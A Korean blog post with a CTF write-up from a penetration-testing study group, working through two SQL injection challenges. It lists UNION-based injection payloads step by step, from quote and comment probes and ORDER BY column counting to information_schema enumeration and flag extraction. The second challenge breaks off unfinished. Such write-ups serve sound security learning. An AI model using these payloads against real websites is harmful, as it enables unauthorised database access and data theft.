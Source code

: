 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true">
처음으로 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. adminer
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true">

-> 대소문자 구분 X
2. ~~adminer'~~
-> X

3. a%
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true">
-> like 구절 있어

4. ~~a#~~
-> X

5. a'#
-> X

6. a%'#
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true">

-> ~~입력값이 들어가는 곳이 like 위치인가 보다~~
-> 괄호 안 들어가고
-> 주석 필터링 없고

7. ~~' and '1' = '1~~
-> X

8. ~~%' and '1' = '1~~
-> X

9. ' and '1' = '1'#
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true">
-> O

## column 개수 파악하기
10. ' order by 1, 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true">
-> O
11. ' order by 1, 2, 3, 4, 5 #
-> X
-> column 개수 4개

## UNION 사용 가능한지 확인하기
12. ' union select 1, 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true">
-> O

## DATABASE 이름 확인하기
13. ' union select database(), 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true">
-> sqli_1

## TABLE 이름 확인하기
19. ' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true">
-> flag_table, plusFlag_Table, user_info

## COLUMN 이름 확인하기
20. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true">
-> flag

21. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true">
-> idx, flag

## DATA 추출하기
22. ' union select flag, 2, 3, 4 from flag_table #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true">
23. ' union select idx, flag, 3, 4 from plusFlag_Table #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true">

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #